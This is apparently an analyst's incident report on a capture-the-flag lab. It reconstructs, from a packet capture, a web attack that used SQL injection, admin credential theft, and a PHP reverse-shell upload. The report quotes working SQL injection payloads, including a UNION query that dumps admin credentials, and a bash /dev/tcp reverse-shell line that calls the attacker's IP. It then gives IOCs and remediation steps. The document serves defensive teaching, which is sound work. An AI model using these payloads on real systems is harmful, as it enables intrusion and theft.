## Network Traffic Investigation Report

  - Analyst: Alexandre Favresse

  - Date of Analysis: 15-03-2024*

  - Report ID: NET-2026-001

  - Classification: True Positive 

  - Severity: Critical

  - Confidence: High 

**Note: The date has been modified to correspond to the date on the .pcap file, the writeup was published on July 18, 2026.*

## Table of Contents

1. [Executive Summary](#section-1-executive-summary)
2. [Alert Context](#section-2--alert-context)
3. [Investigation Methodology](#section-3-investigation-methodology)
4. [Incident Timeline & MITRE ATT&CK Mapping](#section-4-incident-timeline--mitre-attck-mapping)
5. [Findings](#section-5-findings)
6. [Indicators of Compromise (IOCs)](#section-6-indicators-of-compromise-iocs)
7. [Suggested Defensive Measures](#section-7-suggested-defensive-measures)

## Section 1: Executive summary

On March 15 2024, an automated alert was triggered by an unusual spike in database queries and server resource usage on the company's web application. Investigation traced the spike to IP 111[.]224[.]250[.]131, which was probing the web server for SQL injection vulnerabilities.
The attacker successfully exfiltrated the "books" database, extracted admin credentials via an UNION-based SQL injection, and escalated to unauthorized admin access.
A PHP reverse shell was uploaded but the callback connection failed, limiting further compromise.
Immediate remediation actions are recommended below.

## Section 2 : Alert Context

 An automated alert was triggered by an unusual spike in database queries and server resource usage, indicating potential malicious activity.*

**Note: The alert context and the .pcap file are from https://cyberdefenders.org/blueteam-ctf-challenges/web-investigation/*

## Section 3: Investigation Methodology

- **Identifying the IP responsible for the traffic spike**

  The alert reported a spike in database queries, so I first opened the Conversations tab in Wireshark to see which IP address generated the spike in traffic. I identified "111[.]224[.]250[.]131" as the one responsible for the majority of the traffic.



*Figure 1: Wireshark Conversations tab — IP responsible for traffic spike identified*

- **Identifying the type of traffic responsible for the spike**

  I filtered the network traffic with `ip.addr == 111[.]224[.]250[.]131 and http.request` to see the requests made by the suspected IP address, and I found suspicious GET queries for the /search.php page that looked like an SQL injection attack using a classic payload ('1=1'), indicating that the attacker was probing the search parameter for injectability. (timeline 08:03:52)



*Figure 2: Wireshark filter `ip.addr == 111.224.250.131 and http.request` — Packet #357 highlights the first suspicious request*

- **Analysing the first SQL injection attempt and the response from the web server**

  I opened the HTTP stream generated by the first query and confirmed that the attacker attempted an SQL attack with the following GET request: **"book and 1=1; -- -"** but the attack was unsuccessful, as the server responded with "No results found." (timeline 08:03:52)



*Figure 3: HTTP stream of packet #357 with payload '"book and 1=1; -- -"' and response of the server*

- **Identifying a successful SQL injection**

  I looked at the entire conversation from the timestamp of the first attack by filtering for `ip.addr == 111[.]224[.]250[.]131` only, to see the requests and responses from the web server, and I found an HTTP 200 server response with a length above the average length of unsuccessful SQL injection attempts.



*Figure 4: Wireshark filter `ip.addr == 111[.]224[.]250[.]131` — Packet #389 highlights the request with a response' length above average*

  I followed the HTTP stream of this query to the web server and saw that the SQL injection was successful with the payload **' or 1=1; -- -**, as the books' title database was dumped in the server's response.



*Figure 5: HTTP stream of packet #389 with payload ' or 1=1; -- - ' and response of the server with successful database dump*

  **This finding confirmed that the web server is vulnerable to SQL injection** and that the attacker had successfully escalated from probing the search parameter to actively extracting data from the database, indicating the reconnaissance phase was over and active exploitation had begun. (timeline 08:04:37)

- **Verifying if credential data exfiltration was attempted**

  After confirming that the web server is vulnerable to SQL injection, I assumed that an attacker would likely attempt data exfiltration and target credentials on the web server using a UNION-based SQL injection — an SQL attack technique used to retrieve data from other tables within a shared database.

  I filtered the pcap for `ip.addr == 111.224.250.131 and http.request.uri contains "UNION" and http contains "password"` to verify my theory, and the result was positive: the following suspicious payload was found:

  **search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,id,password,username)),0x7176706a71) FROM bookworld_db.`admin`-- -**

  whose goal was to return the id, password, and username columns of the admin table. (timeline 08:09:32)



*Figure 6: Wireshark filter `ip.addr == 111.224.250.131 and http.request.uri contains "UNION" and http contains "password"` — Packet #1589 highlights the request containing a UNION-based SQL injection*

- **Verifying if the credential data exfiltration was successful**

  Following the discovery of the UNION-based SQL injection payload, I followed the HTTP stream of the query to verify if the attack was successful, and I saw that the web server **returned the username and password** of the **admin** account, confirming that the attack was successful.



*Figure 7: HTTP stream of packet #1589 with UNION-based SQL payload and response of the server with successful admin credential extraction*

*Note: Password value has been redacted in this screenshot for reporting best practices, despite this being a lab/simulated environment*

  I also identified that the user-agent used to conduct this attack was **sqlmap**, a penetration testing tool used to identify and exploit SQL vulnerabilities. (timeline 08:09:32)



*Figure 8: HTTP stream of packet #1589 with UNION-based SQL payload — User-Agent identified as sqlmap*

- **Verifying if the exfiltrated credentials were used**

  To check if the exfiltrated credentials were used, I filtered for `http contains "admin"` and found that the attacker attempted to enumerate the website's directories, likely searching for the admin login page to use the stolen credentials.



*Figure 9: Wireshark filter `http contains "admin"` — Packet #2282, #2283, #2289-94 highlight a directories' enumeration attack*

  After checking the user-agent used for this activity, I identified that the attacker used **gobuster**, a penetration testing tool used, among other purposes, to brute-force websites in order to discover hidden directories. (timeline 08:12:20)



*Figure 10: Packet #2890 — User-Agent gobuster used to perform the enumeration attack*

- **Identifying the admin login attempt**

  Continuing my investigation, I found that the attacker later made a **POST** request to a login.php page within the admin directory of the website. (timeline 08:17:35)



*Figure 11: Wireshark filter `http contains "admin"` — Packet #88699 highlights a POST request to /admin/login.php*

- **Verifying if the login was successful**

  I followed the HTTP stream of the POST request and found that the web server returned a **"302 Found"** response, confirming that the login was successful and that the attacker **gained admin access** to the web server. 



*Figure 12: HTTP stream of packet #88699 containing a successful admin access*

*Note: Password value has been redacted in this screenshot for reporting best practices, despite this being a lab/simulated environment*

- **Investigating the attacker's actions after gaining admin access**

  I investigated the attacker's actions following the successful admin login and found that the attacker made a POST request to /admin/index.php.



*Figure 13: Packet #88757 highlights a POST request to /admin/index.php*

  After following the HTTP stream, I found that the attacker successfully uploaded a file named **NVri2vhp.php** containing the following malicious payload:

  `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/111.224.250.131/443 0>&1'");?>`

  This payload is used to achieve **Remote Code Execution** via a **PHP reverse shell** to the following IP address and port: `111[.]224[.]250[.]131:443`.

  The upload was **successful**, as the web server responded with a **200 OK** reply. (timeline 08:24:18)



*Figure 14: HTTP stream of packet #88757 containing a successful PHP reverse shell upload*

- **Extracting the SHA256 hash of the malicious file**

  To generate an IOC that could be used for further defensive measures, I recreated the malicious NVri2vhp.php file locally by extracting the payload from the HTTP POST request (via Wireshark's "Follow HTTP Stream") and saving it into a file with the same name and content.
  I then calculated its SHA256 hash: *fe0e27b7170726fa576934d823b7da9037c1c93aa77cfe8ab2dde5ed0f45d7b8*.

- **Verifying if the malicious PHP file was accessed and remote code execution was established**

  I then filtered for `http contains "NVri2vhp.php"` to check if the attacker interacted with the malicious file in order to trigger the reverse shell, and found a **GET** request for the file. (08:24:28)



*Figure 15: Wireshark filter `http contains "NVri2vhp.php"` — Packet #88790 highlights a GET request to /admin/uploads/NVri2vhp.php"*

  I examined the HTTP stream to determine if the request was successful, but the server responded with a **500 Internal Server Error**, indicating that the request reached the file and attempted to process it, but execution failed before completion. Safeguards on the server side may have prevented the execution attempt. 



*Figure 16: HTTP stream of packet #88790 showing that the attacker failed to access the reverse shell*

  I then checked whether the web server established any outbound connection to the attacker's IP on port 443, `111[.]224[.]250[.]131:443`, which is used for reverse shell connection in the malicious uploaded file's script, and found no such traffic. Based on this evidence, I classified the Remote Code Execution attempt as **unsuccessful**, and found no further relevant actions from the attacker.

## Section 4: Incident Timeline & MITRE ATT&CK Mapping

| Time (UTC) | Event | Reference | MITRE ATT&CK |
|---|---|---| --- |
| 08:03:52 | First SQL injection attempt by `111[.]224[.]250[.]131` | Section 3, Figure 2-3 | Initial Access - T1190 - Exploit Public-Facing Application | 
| 08:04:37 | First successful SQL injection: books database exfiltrated | Section 3, Figures 4–5 |  Initial Access - T1190 - Exploit Public-Facing Application | 
| 08:09:32 | Admin credentials extracted via UNION-based SQL injection | Section 3, Figures 6–7 | Collection - T1213 - Data from Information Repositories: Databases |
| 08:12:20 | Directory enumeration performed using `gobuster` | Section 3, Figures 9–10 | Discovery - T1083 - File and Directory Discovery |
| 08:17:35 | Attacker authenticates to admin panel using stolen credentials | Section 3, Figures 11-12 | Initial Access - T1078 - Valid Accounts |
| 08:24:18 | PHP reverse shell uploaded via admin panel | Section 3, Figures 13–14 | Persistence - T1505.003 - Server Software Component: Web Shell |
| 08:24:28 | Reverse shell connection via port 443 attempt fails | Section 3, Figures 15–16 | Command and Control - T1071.001 - Application Layer Protocol: Web Protocols |
| 08:24:28+| No further attacker activity observed after failed reverse shell connection | --- |

## Section 5: Findings

- **Vulnerability exploitation: Successful SQL injection & Data exfiltration**

  The attacker managed to conduct a successful SQL injection, exploiting the `/search.php` webpage.
  At first the attacker managed to extract the books' database, then used a UNION-based SQL injection to extract the admin's credentials.
  This finding proves that the website is vulnerable to SQL injections and represents a **critical impact**, as it directly exposed authentication data that was later
  reused to gain administrative access.

- **Initial access: gained administrative access**

  The attacker used the exfiltrated credentials from the database dump to successfully connect to the `/admin/login.php`webpage.
  This shows that the attack led to **full administrative compromise**. 

- **Remote Code Execution attempt: Webshell upload**

  The attacker used the administrative access to successfully upload a reverse shell to the `/admin/index.php`webpage.
  Although when the attacker made a GET request to retrieve the reverse shell, the server returned an `HTTP 500: Internal Server Error` reply and no outbound connection was
  made to `111[.]224[.]250[.]131:443`, the IP address and port used for the reverse shell.
  Thus, the **Remote Code Execution attempt failed.**

## Section 6: Indicators of Compromise (IOCs)

| Type | Indicator | Context |
|---|---|---|
| IP Address | 111[.]224[.]250[.]131 | Attacker source IP / C2 destination |
| C2 Destination | 111[.]224[.]250[.]131:443 | Reverse shell callback |
| File Name | NVri2vhp.php | Malicious webshell uploaded to server |
| File Path | /admin/uploads/NVri2vhp.php | Location of webshell on victim server |
| File Hash | fe0e27b7170726fa576934d823b7da9037c1c93aa77cfe8ab2dde5ed0f45d7b8 | Unique identifier for the payload |
| User-Agent | sqlmap | Automated SQL injection tool |
| User-Agent | gobuster | Directory enumeration tool |
| Targeted Endpoint | /search.php | SQL injection entry point |
| Targeted Endpoint | /admin/index.php | Malicious file upload endpoint |
| Compromised Credential | admin / [REDACTED] | Exfiltrated via SQL injection, used for admin logon |
| Malicious Code | `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/111.224.250.131/443 0>&1'");?>` | Reverse shell payload contents |

## Section 7: Suggested Defensive Measures

- **Malicious file: `NVri2vhp.php`**

  - I recommend deleting, as a priority, the malicious file from the web server, or any file with the corresponding hash `fe0e27b7170726fa576934d823b7da9037c1c93aa77cfe8ab2dde5ed0f45d7b8`, located in `/admin/uploads/`, as it contains a malicious script for Remote Code Execution.
  - I also recommend investigating the company's environment for any trace of a file with the same name or hash, in order to verify whether it has been duplicated or moved anywhere else outside of the directory mentioned above.

- **Admin credentials**
  - I recommend changing the admin credentials, as they were compromised, and using a *long, complex password* for the admin account.
  - I recommend using *password hashing* to store passwords in the database, to prevent attackers from accessing passwords in clear text in case of data exfiltration.
  * I also recommend enabling *multi-factor authentication* to protect the system against unauthorized authentication in case of stolen valid credentials.

- **Secure Query Construction**
  - I recommend implementing *parameterized queries* to separate the SQL query structure from the user input to avoid SQL injection, as the user input is treated as a data value and not as executable code with parameterized queries.

- **Implement least privilege for the database accounts**
  - I recommend implementing the *principle of least privilege* for the database accounts, as the account used to search for books in the books database shouldn't have access to the admin table containing credentials.
  - I suggest creating different database accounts with a different set of privileges to avoid successful UNION-based SQL injection.

- **Input sanitization**
  - I recommend implementing *input sanitization* at the application level to add a second layer of protection for the web server against SQL injection, by escaping SQL metacharacters (e.g., `'`, `"`, `;`) instead of rejecting them completely, as `'` might be used in a search query for books.
  - I also recommend enabling a *maximum query length* to avoid the injection of malicious code in the `/search.php` parameter.

- **Implementing a Web Application Firewall**
  - I recommend implementing a *WAF* in order to analyze the web requests sent to the server, adding another layer of defense in depth.
  - The WAF would use pattern matching to detect common SQL injections and block abnormal request volumes, like the ones used for directory enumeration.
  - The WAF would also be able to block malicious User-Agents such as `gobuster` and `sqlmap`.

- **Malicious IP**
  - I recommend *blocking any inbound or outbound connection, on any port*, to `111[.]224[.]250[.]131`, as it was used to conduct a web attack and is used in the malicious script for C2 connection. This measure is not effective as a standalone control, as both the IP address and the malicious script can easily be changed by the attacker.
    
